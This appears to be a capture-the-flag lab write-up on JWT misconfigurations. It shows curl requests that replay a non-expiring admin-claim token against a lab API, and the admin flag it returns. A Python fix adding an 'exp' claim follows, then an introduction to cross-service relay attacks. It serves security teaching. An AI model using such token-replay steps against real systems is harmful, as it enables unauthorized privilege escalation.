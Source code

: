 ```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MX0.ko7EQiATQQzrQPwRO8ZTY37pQWGLPZWEvdWH0tVDNPU


curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password6" }' http://10.10.35.117/api/v1.0/example6


# update verify.sh
curl -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MX0.ko7EQiATQQzrQPwRO8ZTY37pQWGLPZWEvdWH0tVDNPU' http://10.10.35.117/api/v1.0/example6?username=admin

# run verify.sh

{
  "message": "Welcome admin, you are an admin, here is your flag: THM{a450ae48-7226-4633-a63d-38a625368669}"
}




```

the developer mistake

the JWT does not have an `exp` value, meaning it will be persistent. In the event that an `exp` claim isn't present, most JWT libraries would accept the token as valid if the signature is verified.

the fix 

An `exp` value should be added to the claims. Once added, most libraries will include reviewing the expiry time of the JWT into their checks for validity. This can be done as shown in the example below:

```python
lifetime = datetime.datetime.now() + datetime.timedelta(minutes=5) 

payload = { 'username' : username, 'admin' : 0, 'exp' : lifetime } 

access_token = jwt.encode(payload, self.secret, algorithm="HS256")
```





## cross service relay attacks 

The last common misconfiguration we will review is a Cross-Service misconfiguration. As mentioned before, JWTs are often used in systems with a centralised authentication system that serves multiple applications. However, in some cases, we may want to restrict which applications are accessed with a JWT, especially when there are claims that should only be valid for certain applications. This can be done by using the audience claim. However, if the audience claim isn't correctly enforced, a Cross-Service Relay attack can be executed to perform a privilege escalation attack.
